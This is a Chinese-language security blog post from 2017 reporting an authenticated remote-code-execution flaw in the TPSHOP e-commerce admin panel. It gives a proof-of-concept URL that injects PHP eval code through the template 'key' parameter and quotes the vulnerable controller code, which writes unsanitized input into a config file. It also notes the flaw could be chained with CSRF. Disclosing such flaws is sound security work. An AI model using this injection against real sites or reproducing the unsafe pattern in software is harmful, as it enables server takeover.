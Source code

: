 ```yaml
---
title: TPSHOP-GETSHELL
date: 2017-11-24 13:59:47
tags:
	- PHP
	- 代码审计
categories: 渗透
---
```


萌新最近看大佬在审计TPSHOP，心痒痒也不知羞耻地跟着看代码，还真给我这萌新找了个后台getshell，调了很久，终于调通了POC

<!-- more -->

萌新最近看大佬在审计TPSHOP，心痒痒也不知羞耻地跟着看代码，还真给我这萌新找了个后台getshell，调了很久，终于调通了POC

http://xxx/index.php/Admin/template/changeTemplate/key/'.eval('echo 123;').'/t/pc

利用条件是需要登陆进入后台，触发点在后台的模板修改处，点击“启用”按钮就可以发送一个GET请求，把GET请求中的KEY参数改为'.eval('echo 123;').' 即可。。
或者是直接登陆进入后台，直接浏览器请求POC也行的

漏洞触发点在  application/admin/controller/Template.php 中的changeTemplate方法中

```php
public function changeTemplate(){        
        
        $t = I('t','pc'); // pc or  mobile        
        $m = ($t == 'pc') ? 'home' : 'mobile';
        $key = $this->request->param('key');
        //$default_theme = tpCache("hidden.{$t}_default_theme"); // 获取原来的配置                
        //tpCache("hidden.{$t}_default_theme",$_GET['key']);
        //tpCache('hidden',array("{$t}_default_theme"=>$_GET['key']));                         
        // 修改文件配置  
         if(!is_writeable(APP_PATH."$m/html.php"))
            return "文件/".APP_PATH."$m/html.php不可写,不能启用魔板,请修改权限!!!";
         
                $config_html ="<?php
return [
            'template'               => [
            // 模板引擎类型 支持 php think 支持扩展
            'type'         => 'Think',
            // 模板路径
            'view_path'    => './template/$t/$key/',
            // 模板后缀
            'view_suffix'  => 'html',
            // 模板文件名分隔符
            'view_depr'    => DS,
            // 模板引擎普通标签开始标记
            'tpl_begin'    => '{',
            // 模板引擎普通标签结束标记
            'tpl_end'      => '}',
            // 标签库标签开始标记
            'taglib_begin' => '<',
            // 标签库标签结束标记
            'taglib_end'   => '>',
            //模板文件名
            'default_theme'     => '$key',
        ],
        'view_replace_str'  =>  [
            '__PUBLIC__'=>'/public',
            '__STATIC__' => '/template/$t/$key/static',
            '__ROOT__'=>''
        ]
    ];
?>";
         file_put_contents(APP_PATH."/$m/html.php", $config_html);
        delFile('./runtime');
        $this->success("操作成功!!!",U('admin/template/templateList',array('t'=>$t)));      
    }
```

其中$t 和 $key可控，咱们只需要让$key = '.eval('echo 123;').'即可
但是直接访问html.php是403的
然后由于config.php包含了html.php，index.php包含了config.php，所以直接访问修改后直接访问index.php即可getshell

这个洞是后台getshell，有点鸡肋，如果配合CSRF的话那么威力还是有的（萌新也只能挖个后台getshell了）

感谢@碧波 大神帮忙调通了POC。。


